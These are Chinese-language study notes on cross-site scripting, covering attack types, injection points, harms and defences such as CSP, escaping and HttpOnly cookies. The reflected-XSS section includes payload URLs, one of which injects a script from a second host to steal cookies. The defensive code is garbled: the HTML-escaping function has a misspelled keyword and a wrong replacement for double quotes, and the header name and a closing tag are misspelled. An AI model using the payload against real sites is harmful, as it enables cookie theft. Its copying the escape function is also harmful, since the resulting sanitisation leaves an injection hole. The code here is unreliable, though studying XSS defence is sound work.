 ### XSS

Cross Site Scripting 跨站脚本攻击,
通常指的是通过利用网页开发时留下的漏洞，通过巧妙的方法注入恶意指令代码到网页，使用户加载并执行攻击者恶意制造的网页程序。

### 分类

- 反射型

  > url 参数直接注入

  ```javascript
    // alert尝试
    http://localhost:3000?from=<script>alert(123)</script>

    //获取cookie
    http://localhost:3000?from=<script src="http://localhost:4000/hack.js"></sript>
  ```

- 存储型
  > 存储到 DB 后读取时注入

### 注入点

- HTML 节点内容
- HTML 属性
- Javascript 代码
- 富文本

### 危害

- 获取页面数据
- 获取 Cookies
- 劫持前端逻辑
- 发送请求

### 常见防御手段

- 浏览器自带防御机制 `X-SS-Protection`

  > IE 提出的规则，最新的 Chrome 不生效。
  > 只对反射型（出现在 HTML 节点内容和属性中）生效

  > 0 禁止 XSS 过滤。
  > 1 启 XSS 过滤(通常浏览 是默认的)。 如果检测到跨站脚本攻击，浏览 将清除 (删除 安全的部分)。
  >
  > - 1; mode=block 启用 XSS 过滤。如果检测到攻击，浏览将不会清除页面，而且阻止页面加载。
  > - 1; report= (Chromium only) 启用 XSS 过滤。如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规报告。

- 内容安全策略 CSP `Content Security Policy`
  https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP

  > 是一个附加的安全层，用于帮助检测和缓解某些类型的攻击，包括 XSS 和数据注入等攻击。
  > 本质上就是建立白名单，开发者明确告诉浏览器哪些外部资源可以加载和执行。我们只需要配置规则，如何拦截是由浏览器自己实现的。我们可以通过这种方式来尽量减少 XSS 攻击。

  ```javascript
  // 只允许内容来自站点的同一个源 (不包括其子域名)
  Content-Security-Policy: default-src 'self'

  // 只允许加载 HTTPS 协议图片
  Content-Security-Policy: img-src https://*

  // 不允许加载任何来源框架
  Content-Security-Policy: child-src 'none'

  ```

- 转义

  ```javascript
  fuction escapeHtml (str) {
    if(!str) return '';
    str = str.replace(/&/g, '&amp;');
    str = str.replace(/</g, '&lt;');
    str = str.replace(/>/g, '&gt;');
    str = str.replace(/"/g, 'quto;');
    str = str.replace(/'/g, '&#39;');

      return str;
  }
  ```

- 白名单

  - `npm i xss` https://github.com/leizongmin/js-xss/blob/master/README.zh.md

- HttpOnly Cookie
  > Web 应用程序在设置 cookie 时，将其属性设置为 HttpOnly, 可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取。
